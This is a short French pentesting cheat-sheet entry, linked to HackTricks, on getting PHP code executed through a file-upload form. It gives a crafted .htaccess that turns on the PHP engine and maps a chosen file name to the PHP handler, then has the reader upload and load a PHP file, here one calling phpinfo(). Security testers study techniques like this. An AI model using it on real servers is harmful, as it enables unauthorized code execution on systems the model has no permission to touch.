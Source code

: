 
[Hacktricks - File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)

## .htaccess + php file upload

- Trouver la bonne version de php utilisée par le server : exemple php 7 ici :

.htaccess : 
```apacheconf
Options All +Indexes

<IfModule mod_php7.c>
    php_flag engine on
</IfModule>

<FilesMatch "yourfilename">
  SetHandler  application/x-httpd-php
</FilesMatch>
```

yourfilename : 
```php
<?php phpinfo(); ?>
```

- Upload les deux fichiers en meme temps (ou au meme endroit)
- Load le fichier "yourfilename" (il devrait s'executer)

- `php_flag engine on` permet d'activer l'execution de code php dans les repertoires a partie de celui dans lequel le .htaccess est présent
- `<FilesMatch "yourfilename"> SetHandler  application/x-httpd-php </FilesMatch>` permet de signifier au server web que le fichier qui s'appelle "yourfilename" est un fichier php et que son contenu doit être reconnu comme tel

Ces deux directives vont donc activer l'execution de code php et permettre au fichier "yourfilename" de s'executer sur le server.